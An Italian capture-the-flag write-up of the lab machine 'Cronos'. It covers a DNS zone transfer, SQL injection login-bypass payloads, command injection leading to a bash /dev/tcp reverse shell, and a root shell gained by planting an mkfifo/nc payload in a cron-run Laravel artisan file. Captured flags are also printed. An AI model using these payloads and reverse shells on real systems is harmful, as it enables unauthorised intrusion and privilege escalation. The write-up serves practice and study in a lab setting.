

**TARGET:10.10.10.13**

# INFORMATION GATHERING

Lanciamo un primo scan [[Nmap]] per vedere quali porte sono aprte e quali servizi girano 

``` bash 
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# nmap -sC -sV -O 10.10.10.13
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-18 08:40 EDT
Nmap scan report for 10.10.10.13
Host is up (0.063s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/18%OT=22%CT=1%CU=32303%PV=Y%DS=2%DC=I%G=Y%TM=64661CC
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.95 seconds

Un ulteriore scan su tutte le porte non ci fornisce nessuna nuovo indizio
```

# ENUMERATION

Visitano  http://10.10.10.13:80 ci ritroviamo di fornte alla pagine di defult di un server apache2 
Guardando il codice sorgente della pagina troviamo questi riferimenti:


 
```
Modified from the Debian original for Ubuntu
Last updated: 2014-03-19
See: https://launchpad.net/bugs/1288690
  
https://lists.debian.org/debian-apache/2014/03/msg00023.html
```
Si parla di una modifica da Debian ad Ubuntu 

Notiamo anche la porta 53 aperta che insiema alla pagina di defult di Apache2 potrebbe indicare il fatto
che quell'ip funga da [[Port 53 DNS| DNS]] e quindi potrebbero esserci dei [[Port 53 DNS#^5d532b|Virtual Host]]( in parole povere 'indirizzo
#10.10.10.13 funge da server DNS (Domain Name System) per altri ip sottostanti 

Proviamo con nslookup
```bash
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# nslookup            
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
;; communications error to 10.10.10.13#53: timed out
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
>
```

Abbiamo un virutal host che aggiungiamo al file /etc/hosts
10.10.10.13 cronos.htb

Visitiamo cronos.htb,è un sito diverso. 
Ogni volta che c'è TCP DNS, vale la pena provare un zone transfer, per ottenere un elenco di tutti gli host per questo dominio. 
La sintassi del comando host per eseguire un trasferimento di zona è.
host -l <domain-name> <dns_server-address>

Otteniamo quanto segue:
```bash
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# host -l cronos.htb 10.10.10.13                              
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```
Oppure possimo usare il comando dig:
dig axfr <domain-name> @<dns_server-address>

```bash
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# dig axfr cronos.htb @10.10.10.13


; <<>> DiG 9.18.12-1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 60 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Thu May 18 10:02:36 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
                                        
```
Aggiungiamo il tutto al nostro /etc/hosts

Possiamo notare un indirizzo interessante "admin.cornos.htb"
lo visitiamo e ci troviamo di fronte ad un form di login 

## SQL INJECTION (Manuale)

Proviamo a vedere se è vulnerabile a qualche SQL injection qui abbiao alcuni cheatseet
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

Abbimo due iniezioni che funzionano nel campo username:

"admin' --"
"' or 1=1-- -"

Siamo dentro. 

## SQL INJECTION (Automatico NO OSCP)

Apriamo burp e facciamo una prima richiesta con user e pass random, ce la salviamo in
un file .req 

Utiliziamo questa sintassi di sqlmap

```bash
┌──(root㉿kali)-[/home/kali/tool/sqlmap-dev]
└─# sqlmap  -r login.req -v 4 
```
 
 "-r " serve per dire ad sqlmap di utilizzare un file contente una richiesta HTTP 
 su qui basare le porve di injection 
 "-v 4" server per vedere ogni singola ijnection

``` bash

[02:55:55] [PAYLOAD] admin' ORDER BY 1-- -
[02:55:55] [TRAFFIC OUT] HTTP request [#49]:
POST / HTTP/1.1
Host: admin.cronos.htb
User-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-language: en-US,en;q=0.5
Accept-encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Origin: http://admin.cronos.htb
Referer: http://admin.cronos.htb/
Cookie: PHPSESSID=9v3dbpgun41d85godbjd56j3a4
Upgrade-Insecure-Requests: 1
Content-length: 55
Connection: close

username=admin%27%20ORDER%20BY%201--%20-&password=admin

got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n] 
```

Abbiamo un redirect ad "/welcome.php" vuoldire che il payaload della richiesta ha funzionato

Entriamo con il payload " admin' ORDER BY 1-- -" e ci troviamo di fronte una paigna 
che esegue due comandi " traceroute " e " ping " 
Proviamo a vedere se possiamo eseguire altri comandi ovvero una Command Execution " & whoami "
ci dice che siamo uenti " www-data", questo ci suggerisce possiamo eseguire comandi  e che abbiamo FINALMENTE UNA COMMAND EXECUTION

# EXPLOITATION

 Per ottenere una shell ci mettiamo in ascolto con nc sulla nostra macchina 
 
 ``` bash
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# nc -lnvp 443              
listening on [any] 443 ...
```

Aggiungiamo nella prompt dei comandi
presente nella pagina "welcome.php" il codice di una revshell che punti 
al nostro ip e alla porta alla quale siamo in ascolto 

" & bash -c 'bash -i >& /dev/tcp/10.10.14.53/443 0>&1'"

Otteniamo cosi una shell

con which python3 sopriamo che è presete python3 possiamo eseguire un update della shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'


^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```
Abbiamo una shell interattiva e stabile
www-data@cronos:/var/www/admin$ 

Flag users
www-data@cronos:/home/noulis$ cat user.txt 
c56059c3fc533f65df0e509cb3b52468
---------------------------------------------------------------------
# PRIVESC

Siamo dentro una macchina linux quindi ci scarichiamo LinEnum.sh dalla nostra macchina 
avvierò un server web Python3 nella mia directory dove è contenuto LinEnum.sh

```bash
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/LinEnum]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
e lo scarico sulla macchina target wget 

```bash
www-data@cronos:/tmp$ wget 10.10.14.53/LinEnum.sh                                                                                            
--2023-05-19 10:51:13--  http://10.10.14.53/LinEnum.sh                                                                                       
Connecting to 10.10.14.53:80... connected.                                                                                                   
HTTP request sent, awaiting response... 200 OK                                                                                               
Length: 46631 (46K) [text/x-sh]                                                                                                              
Saving to: 'LinEnum.sh'                                                                                                                      
                                                                                                                                             
LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s    

2023-05-19 10:51:13 (398 KB/s) - 'LinEnum.sh' saved [46631/46631]
```

Eseguiamo LinEnum.sh e alla voce corntab torivamo il seguente output

```bash
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

la cosa interessante che vediamo che "php /var/www/laravel/artisan" 
viene eseguito ogni minuto con i privilegi di root
vedi dettgli per crontab:
https://tigr.net/3203/2014/09/13/getting-wordpress-cron-work-in-multisite-environment/

Se avvessimo i permessi di scrittura protemmo  modificare il contenuto del file artisan 
per inserire una il codice di una shell che punti alla nostra macchina di attacco, 
il codice verrà eseguito con i privilegi di root e ci avremmo cosi una shell privilegiata.

Verifichiamo che permessi abbiamo
https://www.andreaminini.com/linux/permessi-dei-file-su-linux 

```bash
www-data@cronos:/var/www/laravel$ ls -l
total 1988
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 May 10  2022 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
```
Perfetto abbiamo i permessi di scrittura, quindi non ci resta che modificare il file 

```bash
www-data@cronos:/var/www/laravel$ cat artisan                                                                                                
#!/usr/bin/env php                                                                                                                           
<?php                                                                                                                                        
                                                 
/*                                                                                                                                           
|--------------------------------------------------------------------------                                                                  
| Register The Auto Loader                                                                                                                   
|--------------------------------------------------------------------------                                                                  
|                                                                                                                                            
| Composer provides a convenient, automatically generated class loader                                                                       
| for our application. We just need to utilize it! We'll require it                                                                          
| into the script here so that we do not have to worry about the                                                                             
| loading of any our classes "manually". Feels great to relax.                                                                               
|                                                                                                                                            
*/                                                                

#Con nano aggiungiamo una shell php che è la seguente :
system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 444 >/tmp/f"); ?> 
```

ci  mettiamo  in ascolto con nc e aspettiamo un minuto

```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lnvp 4444                                      
listening on [any] 444 ...
```

otteniamo cosi  la nostra shell con prvilegi root

```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lnvp 444 
listening on [any] 444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.13] 47842
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

Flag root
```
cat root.txt
82995b244fa7508941c3ec4870eca12c
```

# LESSION LEARNED

Per ottenere un punto d'appoggio iniziale abbiamo sfruttato tre vulnerabilità.

1. La possibilità di eseguire un zone transfer (vedi nslookup) che ci ha permesso di ottenere un elenco di tutti gli host per il dominio. Per evitare che si verifichi questa vulnerabilità, il server DNS deve essere configurato in modo da consentire solo i trasferimenti di zona da indirizzi IP attendibili.
2. Una Sql injection ci ha permesso di aggirare un form di  autetnticazione (manuele e automatica con sqlmap)  
3. Una Command injection ci ha permesso di eseguire comandi di sistema arbitrari

Per passare ai privilegi di root, dovevamo sfruttare una delle seguenti vulnerabilità.
Una configurazione errata della sicurezza in cron 
che prevedeva un processo cron pianificato per eseguire un file di proprietà dell'utente non privilegiato come root. 
Siamo stati in grado di sfruttarlo per ottenere un reverse shell privilegiato
